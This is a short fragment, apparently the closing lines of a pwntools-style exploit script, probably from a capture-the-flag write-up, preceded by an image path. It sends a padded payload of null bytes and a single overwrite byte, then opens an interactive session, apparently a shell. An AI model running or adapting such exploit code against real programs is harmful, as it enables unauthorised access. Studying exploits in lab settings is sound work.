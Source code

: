 ```python
    p.send(b"f8")
    p.send(b'\x00' * (offset + 0xc0))
    p.send(b'\xf8')

    p.interactive()


if __name__ == "__main__":
    main()
```
